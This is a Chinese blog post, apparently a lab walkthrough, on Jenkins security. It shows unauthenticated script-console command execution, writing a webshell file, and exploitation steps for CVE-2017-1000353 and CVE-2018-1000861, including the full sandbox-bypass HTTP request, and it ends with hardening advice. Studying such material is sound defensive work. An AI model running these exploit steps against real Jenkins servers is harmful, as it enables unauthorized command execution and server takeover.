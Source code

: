 ```yaml
---
title: Jenkins一些安全问题
top: false
cover: false
categories:
- 渗透测试
tags:
- Jenkins
- 未授权访问
- ' CVE-2017-1000353'
- CVE-2018-1000861
abbrlink: 63696
date: 2020-05-26 12:25:43
keywords:
summary:
img:
password:
---
```



#### 漏洞简介及危害
默认情况下 Jenkins面面板中用户可以选择执行脚本界面来操作一些系统层命令,攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务,通过脚本执行行界面从而获取服务器权限。


#### 环境搭建
```bash
# 下载地址： https://www.jenkins.io/download/
# 可以直接下载war包
java -jar jenkins.war    # 运行
# 
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行行行
service jenkinis start    # 开启Jenkins服务

浏览器器访问http://192.168.0.100:8080/
```


#### 未授权访问测试
访问`http://192.168.0.100:8080/manage`可以看到没有任何限制可以直接访问


#### Jenkins未授权访问写shell
1.点击“脚本命令行”
![](https://image.geoer.cn/Jenkins_consele.png)

2.执行系统命令
```bash
println "whoami".execute().text
```
 3.利用“脚本命令行”写webshell,(`需要一定的权限且知道网站绝对路径`)，点击运行,写入成功
```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```
![](https://image.geoer.cn/Jenkins_cmd.png)

4.访问shell.php， 测试成功
![](https://image.geoer.cn/Jenkins_shell.png)



####  CVE-2017-1000353
>这是一个java反序列化漏洞

执行如下命令启动jenkins 2.46.1：
```bash
docker-compose up -d
```
等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

###### 原理
参考：   https://blogs.securiteam.com/index.php/archives/3171

###### 测试
1.生成序列化字符串
```bash
# 参考 https://github.com/vulhub/CVE-2017-1000353
# 首先下载POC生成工具：   https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar

# 执行下面命令，生成字节码文件
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touc /tmp/success" 
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
# 生成jenkins_poc.ser文件，这就是序列化字符串。
```

2.生成jenkins_poc.ser文件，这就是序列化字符串。
```bash
# 下载 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
# Python3执行
python3 exploit.py http://192.168.0.100:8080 jenkins_poc.ser    # 将刚才生成的字节码文件发送给目标
```

3.进入docker容器发现文件创建成功


#### CVE-2018-1000861
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


###### 测试
执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：
```bash
docker-compose up -d
```

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：
```bash
http://192.168.0.100:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}

# 请求替换到burp拦截的数据包中
```
数据包如下
```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}} HTTP/1.1
Host: 192.168.0.100:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID.a3c40b9a=node010r4vkf3cix27hr5qd9qvw5y41.node0; screenResolution=1920x1080
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

进入容器: `docker-compose exec jenkins bash`,看到 /tmp/success文件创建成功
![](https://image.geoer.cn/Jenkins_poc_ok.png)



#### 配置方面的安全问题
1.允许任意账户注册 带来的安全问题
![](https://image.geoer.cn/Jenkins_reg_any.png)
关闭用户注册
![](https://image.geoer.cn/Jenkins_reg.png)

2.允许匿名访问带来的问题
建议关闭
![](https://image.geoer.cn/Jenkins_nologin.png)




jenkins的日志功能不是很好（可以使用代理，并进行操作的记录）


#### 安全建议
- 使用最新版的jenkins
- 关闭匿名访问
- 关闭用户注册功能
- 用户严格授权
- 最小化插件，相关插件使用最新版
- 使用nginx代理jenkins，不要直接暴露在公网




参考：https://www.secpulse.com/archives/2166.html


